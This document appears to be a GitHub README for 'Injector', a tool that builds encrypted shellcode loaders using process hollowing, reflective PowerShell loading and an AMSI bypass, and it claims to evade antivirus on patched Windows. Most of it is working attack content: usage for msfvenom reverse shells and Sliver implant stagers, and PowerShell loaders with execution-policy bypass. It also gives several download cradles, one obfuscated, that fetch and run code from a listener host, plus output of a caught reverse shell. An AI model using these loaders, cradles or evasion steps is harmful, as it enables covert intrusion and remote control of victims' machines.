



# Injector

Injector builds a powershell script to reflectively load an assembly that injects an encrypted payload using a process hollowing technique. Currently, is undetected on fully patched Windows 10 and 11 systems.

It supports AES 256 and single byte XOR encryption and it uses an AMSI bypass technique from [Avi Gimpel](https://www.cyberark.com/resources/threat-research-blog/amsi-bypass-redux),  [RastaMouse](https://rastamouse.me/memory-patching-amsi-bypass/), and [icyguider](https://gist.github.com/icyguider/330df2b946037ace3567149834b3324c).

I've seen the process hollowing injection technique in code published by [@S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t),  [@affix](https://gist.github.com/affix),  [@chvancooten](https://github.com/chvancooten). Not sure who to attribute the technique to, but this is a great description: [Process Hollowing](https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/process-hollowing)

- [@affix gist](https://gist.github.com/affix/994d7b806a6eaa605533f46e5c27fa5e)
- [@chvancooten OSEP-Code-Snippets](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Hollowing/Program.cs)
- [@S3cur3Th1sSh1t DinvokeProcessHollow](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/Csharp/DinvokeProcessHollow.cs)

I based this on [@plackyhacker](https://github.com/plackyhacker)'s work:

- [Shellcode-Encrypter](https://github.com/plackyhacker/Shellcode-Encryptor)
- [assembly-injection.ps1](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/assembly-injection.ps1)

Latest [antiscan.me](https://antiscan.me) results on the windows exe with AES encrypted payload: 

Without the AMSI bypass...



... and with AMSI bypass ...



## Help

```
Injector... encrypted payload, process hollowing, reflective execution

usage: injector.py [-h] [-i LHOST] [-l LPORT] [-w WHOST] [-r WPORT] [-p PAYLOAD] [-b BINARY] [-f EXITFUNC] [-m METHOD] [-k KEY] [-e WINEXE] [-s SCRIPT] [-t TEMPDIR]

options:
  -h, --help            show this help message and exit
  -i LHOST, --lhost LHOST
                        listener ip address
  -l LPORT, --lport LPORT
                        listener port
  -w WHOST, --whost WHOST
                        webserver ip address - defaults to listener ip
  -r WPORT, --wport WPORT
                        webserver port
  -p PAYLOAD, --payload PAYLOAD
                        msfvenom payload
  -b BINARY, --binary BINARY
                        binary (shellcode) payload
  -f EXITFUNC, --exitfunc EXITFUNC
                        exitfunc: seh,thread,process,none
  -m METHOD, --method METHOD
                        encryption format: aes or xor.
  -k KEY, --key KEY     encryption key: xor requires '0x81' format, aes requires 32 char string
  -e WINEXE, --winexe WINEXE
                        windows binary
  -s SCRIPT, --script SCRIPT
                        windows PS1 reflective loader
  -t TEMPDIR, --tempdir TEMPDIR
                        directory for build artifacts (will create if necessary)
```


## Examples

### msfvenom

```
$ ./injector.py -p windows/x64/shell_reverse_tcp -i 192.168.10.125 -l 443 -r 8080 -m aes
Injector... encrypted payload, process hollowing, reflective execution

[+] creating injector for aes encrypted payload
[+] generating msfvenom payload...
[+] key: FDh6LIIU1frQzfiYJAn4vBU3bDjCXKYX
[+] created: test.exe
[+] created: iwrtest.txt
[+] created: test.txt
[+] host http://192.168.10.125:8080/test.txt and execute on target:
    powershell -ep bypass -nop -c "&{iex(iwr 'http://192.168.10.125:8080/test.txt')}"
[*] done!
```

Set up a server for the `exe` and `powershell` loader:

```
$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Execute download cradle on windows target:

```
Microsoft Windows [Version 10.0.19045.2311]
(c) Microsoft Corporation. All rights reserved.

C:\Users\tester>powershell -ep bypass -nop -c "&{iex(iwr 'http://192.168.10.125:8080/test.txt')}"
Test result: True
```



Catch the callback:

```
$ rlwrap -cAr nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.10.125] from (UNKNOWN) [192.168.10.108] 50300
Microsoft Windows [Version 10.0.19045.2546]
(c) Microsoft Corporation. All rights reserved.

C:\Users\tester>whoami && hostname
whoami && hostname
desktop\tester
DESKTOP
```


### sliver

```
$ /opt/tools/sliver-server_linux

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain assist
[*] Server v1.5.31 - xxx
[*] Welcome to the sliver shell, please type 'help' for options

[server] sliver > profiles new beacon --arch amd64 --os windows --mtls 192.168.2.125:443 -f shellcode --timeout 300 --seconds 5 --jitter 1 test

[*] Saved new implant profile (beacon) test

[server] sliver > stage-listener --url http://192.168.2.125:8000 --profile test

[*] No builds found for profile test, generating a new one
[*] Job 1 (http) started

[server] sliver > mtls --lhost 192.168.2.125 --lport 443

[*] Starting mTLS listener ...

[*] Successfully started job #2

[server] sliver > jobs

 ID   Name   Protocol   Port
==== ====== ========== ======
 1    http   tcp        8000
 2    mtls   tcp        443

[server] sliver > generate stager -r http --lhost 192.168.2.125 --lport 8000

[*] Sliver implant stager saved to: /home/kali/repos/injector/CREEPY_TAILOR
```

```
./injector.py -b ./CREEPY_TAILOR -w 192.168.2.125 -r 8080 -m aes
Injector... encrypted payload, process hollowing, reflective execution

[+] creating injector for aes encrypted payload
[+] key: xxx
[+] created: test.exe
[+] created: iwrtest.txt
[+] created: test.txt
[+] host http://192.168.2.125:8080/test.txt and execute on target:
    powershell -ep bypass -nop -c "&{iex(iwr 'http://192.168.2.125:8080/test.txt')}"
[*] done!
```

on target, as usual

```
C:\Users\tester> powershell -ep bypass -nop -c "&{iex(iwr 'http://192.168.2.125:8080/test.txt')}"
test succeeded
```

catch the beacon...

```
[*] Beacon 7efe5b00 PUZZLED_HEDGE - 192.168.2.108:50795 (DESKTOP) - windows/amd64 - Thu, 24 Nov 2022 23:40:38 EST
```


## Reflective loaders

`$ cat test.txt`

```powershell
[System.Reflection.Assembly]::Load([System.Convert]::FromBase64String('TVqQAAMAA...AAAAAAAA')).GetType('SystemTest.Program', [Reflection.BindingFlags] 'Public,NonPublic').GetMethod('Main', [Reflection.BindingFlags] 'Static,Public,NonPublic').Invoke($null, (, [string[]] ('4mWJw95jGbSKmhODaIT7OGxB9YQmEnoq')));
```

`$ cat iwrtest.txt`

```powershell
[System.Reflection.Assembly]::Load((Invoke-WebRequest 'http://192.168.2.125:8080/test.exe').Content).GetType('SystemTest.Program', [Reflection.BindingFlags] 'Public,NonPublic').GetMethod('Main', [Reflection.BindingFlags] 'Static,Public,NonPublic').Invoke($null, (, [string[]] ('4mWJw95jGbSKmhODaIT7OGxB9YQmEnoq')));
```


## Download cradles

```powershell
powershell -ep bypass -nop -c "&{iex(iwr 'http://192.168.2.125/test.txt')}"
powershell -ep bypass -nop -c "&{IEX([Net.Webclient]::new().DownloadString('http://192.168.2.125/test.txt'))}"
powershell -ep bypass -nop -c "&{[scriptblock]::Create(('http://192.168.2.125/test.txt'|%{(IRM $_)})).Invoke()}"
powershell -ep bypass -nop -c "function /{($args[0]|%{[char]$_})-join''};(.(/ 105,119,114) 'http://192.168.2.125:8080/test.txt').content|.(/ 105,101,120)"
```


